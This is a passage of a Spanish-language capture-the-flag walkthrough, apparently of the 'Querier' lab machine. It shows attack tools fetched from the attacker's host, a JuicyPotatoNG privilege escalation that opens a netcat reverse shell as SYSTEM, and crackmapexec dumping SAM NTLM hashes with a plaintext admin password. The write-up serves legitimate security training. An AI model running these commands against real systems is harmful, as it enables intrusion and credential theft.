 ```bash
PS C:\Users\mssql-svc\Desktop> curl -o nc.exe 10.10.15.11/nc.exe
PS C:\Users\mssql-svc\Desktop> dir


    Directory: C:\Users\mssql-svc\Desktop


Mode                LastWriteTime         Length Name                   
----                -------------         ------ ----                   
-a----         4/5/2024   9:39 PM          28160 nc.exe                 
-a----         4/5/2024   9:26 PM         600580 PowerUp.ps1            
-ar---         4/5/2024   7:41 PM             34 user.txt               


PS C:\Users\mssql-svc\Desktop> curl -o JuicyPotatoNG.exe 10.10.15.11/JuicyPotatoNG.exe
PS C:\Users\mssql-svc\Desktop>
```

- Ahora nos ponemos en escucha con `rlwrap` con lo habíamos hecho antes.

- Nos enviamos la `reverse shell`.

```bash
PS C:\Users\mssql-svc\Desktop> .\JuicyPotatoNG.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\mssql-svc\Desktop\nc.exe 10.10.15.11 443 -e powershell"
```

- Y ahora recibimos la `reverse shell`.

```bash
➜  content rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.15.11] from (UNKNOWN) [10.129.67.247] 49686
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\> whoami
whoami
nt authority\system
PS C:\>
```

## Dumpeando los hashes NTLM almacenados en la SAM

- Y bueno algo extra es que como tenemos las credenciales del usuario administrador podemos `dumpear` los hashes de los demás usuario para hacer `pass the hash` y conectarnos sin proporcionar contraseña.

```bash
➜  content crackmapexec smb 10.129.67.247 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!' --local-auth --sam
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:QUERIER) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] QUERIER\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
SMB         10.129.67.247   445    QUERIER          [+] Dumping SAM hashes
SMB         10.129.67.247   445    QUERIER          Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dcefe78334b42c0ce483b8e1b2886ab:::
SMB         10.129.67.247   445    QUERIER          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.67.247   445    QUERIER          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.67.247   445    QUERIER          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5564df813a052fce1f477bf934863870:::
SMB         10.129.67.247   445    QUERIER          mssql-svc:1001:aad3b435b51404eeaad3b435b51404ee:0ac7bd9745e85cbea2fe0fa11f33c588:::
```